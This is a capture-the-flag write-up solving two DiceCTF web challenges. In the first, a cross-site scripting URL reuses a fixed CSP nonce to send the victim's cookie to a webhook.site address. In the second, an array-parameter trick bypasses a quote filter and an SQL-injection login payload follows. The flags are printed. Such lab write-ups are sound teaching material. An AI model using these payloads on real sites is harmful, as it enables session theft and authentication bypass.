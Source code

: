 **[web/Babier CSP](https://babier-csp.dicec.tf/)**  
We have source code [index.js](https://lhtthao0430.github.io/web/dice/Babier_CSP/index.js)  
In line 8, it sets
```
const NONCE = crypto.randomBytes(16).toString('base64');
```
and in line 26
```
res.setHeader("Content-Security-Policy", `default-src none; script-src 'nonce-${NONCE}';`);
```
This code just run 1 time, so NONCE doesn't change after run server, view source, we have nonce
```
+ZSveZwTAUqC6Pt9p+rgUg==
```
We can host a server using webhook.site, redirect and get the cookie
```
https://babier-csp.dicec.tf/?name=%3Cscript%20nonce=%2BZSveZwTAUqC6Pt9p%2BrgUg==%3Elocation.href=%22https://webhook.site/c23c6a4a-1ad6-420d-a488-033f8762e6ed/?data=%22%2Bdocument.cookie%3C/script%3E
```
We got the secret
```
secret=4b36b1b8e47f761263796b1defd80745
```
Go to https://babier-csp.dicec.tf/4b36b1b8e47f761263796b1defd80745/
```
dice{web_1s_a_stat3_0f_grac3_857720}
```
**[web/Missing Flavortext](https://missing-flavortext.dicec.tf)**  
We have source code [index.js](https://lhtthao0430.github.io/web/dice/Missing_Flavortext/index.js)  
In line 34, it have filter ', let bypass it by using array input
```
username[]
```
It's a simple SQL Injection
```
admin' or '1' = '
```
We got the flag
```
dice{sq1i_d03sn7_3v3n_3x1s7_4nym0r3}
```